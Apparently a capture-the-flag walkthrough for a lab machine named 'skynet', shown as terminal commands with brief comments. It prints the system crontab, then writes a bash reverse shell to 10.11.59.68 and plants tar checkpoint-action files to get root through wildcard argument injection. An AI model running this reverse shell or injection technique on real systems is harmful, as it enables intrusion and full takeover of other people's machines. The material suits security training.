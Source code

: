 #looking for some help, it looks ike its executed every minute:
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh 
#^^
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


#IT EXPIRED SO I DECIDED IT WAS TIME TO MAKE DINNER AND COME BACK TO IT NEXT DAY

#1 --> from the nc 4444 listener input the following:
www-data@skynet:/$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.11.59.68/6666 0>&1' > /var/www/html/shell

www-data@skynet:/$ chmod +x /var/www/html/shell

www-data@skynet:/$ touch /var/www/html/--checkpoint=1

www-data@skynet:/$ touch /var/www/html/--checkpoint-action=exec=bash\ shell


#2 --> we should now have the shell which we can access on the port specified so I sat up a nc listener
www-data@skynet:/$ ls -l /var/www/html
ls -l /var/www/html
total 64
-rw-rw-rw- 1 www-data www-data     0 Feb 16 11:11 --checkpoint-action=exec=bash shell
-rw-rw-rw- 1 www-data www-data     0 Feb 16 11:11 --checkpoint=1
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rwxrwxrwx 1 www-data www-data    53 Feb 16 11:10 shell
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
